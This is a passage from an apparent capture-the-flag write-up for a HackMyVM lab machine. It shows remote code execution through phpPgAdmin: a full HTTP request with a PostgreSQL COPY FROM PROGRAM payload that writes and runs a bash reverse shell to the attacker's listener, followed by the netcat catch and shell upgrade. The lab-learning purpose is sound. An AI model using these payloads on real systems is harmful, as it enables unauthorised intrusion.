 But, we have an [exploit](https://www.exploit-db.com/exploits/49736) that might work? I try it - success. We have RCE. I get a shell by writing a bash reverse shell to a file and then calling it:

{% highlight shell %}
POST /phppgadmin/sql.php HTTP/1.1
Host: 10.10.10.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 223
Origin: http://10.10.10.12
Connection: close
Referer: http://10.10.10.12/phppgadmin/sqledit.php?subject=table&server=localhost%3A5432%3Aallow&database=postgres&action=sql
Cookie: PPA_ID=cp6bdlko3q7p25n3nj72qfhb42; webfx-tree-cookie-persistence=wfxt-26+wfxt-14+wfxt-12+wfxt-10+wfxt-8+wfxt-6+wfxt-4+wfxt-28
Upgrade-Insecure-Requests: 1

server=localhost%3A5432%3Aallow&database=postgres&search_path=public&query=COPY+cmd_exec+FROM+PROGRAM+%27printf+%22%2Fbin%2Fbash+-c+bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.2%2F1234+0%3E%261%5Cn%22+%3E+%2Ftmp%2Fshell.sh%27%3B
{% endhighlight %} 

Lemme URL decode that here:

``
COPY+cmd_exec+FROM+PROGRAM+'printf+"/bin/bash+-c+bash+-i+>&+/dev/tcp/10.10.10.2/1234+0>&1\n"+>+/tmp/shell.sh';
``

The follow-up was:

``
COPY+cmd_exec+FROM+PROGRAM+'chmod++x+/tmp/shell.sh+&&+/bin/bash+/tmp/shell.sh';
``

And I have a shell:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/government]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.12] 33634
which python 
/usr/bin/python
python -c 'import pty;pty.spawn("/bin/bash");'
postgres@government:/var/lib/postgresql/9.6/main$
{% endhighlight %} 

### User
There is one user, **erik**. We can't read his files. Linpeas gives me squat. This one came down to manual enumeration, which eventually lead to this:

